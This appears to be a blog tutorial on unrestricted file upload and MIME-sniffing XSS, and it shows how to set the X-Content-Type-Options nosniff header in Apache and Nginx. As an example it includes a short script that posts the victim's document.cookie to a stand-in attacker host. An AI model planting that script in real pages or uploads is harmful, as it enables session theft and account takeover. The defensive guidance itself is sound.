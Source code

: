 ## Unrestricted File Upload attack

In this kind of attack, hacker can upload a malicious file and when the app serve the uploaded file to othe users, the uploaded file can executed. This is made possible by browser which tries to sniff the MIME type f of the file and execute the file without being explicitly asked to do so.

For instance, attacker can upload a HTML file containing javascript code

{% highlight html %}
<script type="text/javascript">
// attacker secretly sends back the user cookie to his server.
// The cookie can then be later used to login the attacked user's account without being noticed.
$.post('https://attacker-url.com', { cookie: document.cookie });
</script>
{% endhighlight %}

And later on, an ``a`` tag with ``href`` linking to display the content of this HTML file is shown to user. If user clicks on this link, browser would try to interpret displayed file extension as HTML code and try to execute it right away. As a result, user's cookie would be sent over to the attacker's server. This leads to a case of ``Cross-site Scripting (XSS)`` attack.

To prevent this from happening, you would need set ``X-Content-Type-Options`` header to be ``nosniff``. Hence if server instructs the served file to be ``Content-Type: text/plain``, browser would serve the file as plain text only instead of trying to execute the file based on its MIME extension.

### Apache

Put this line inside your ``httpd.conf`` or relevant file:

{% highlight bash %}
<IfModule mod_headers.c>
  Header set X-Content-Type-Options "nosniff"
</IfModule>
{% endhighlight %}

### Nginx

Put this line inside your ``sites-available`` nginx config file

{% highlight bash %}
add_header X-Content-Type-Options "nosniff";
{% endhighlight %}

After adding the line, you can restart apache/nginx server and verify by reloading the page and check the response header. Make sure ``X-Content-Type-Options`` setting match with what you have changed in your server configuration.

<p style='text-align:center;' markdown='1'><img src='/public/images/x_content_type_options.png' alt="X-Content-Type-Options" style='display:inline;'/></p>
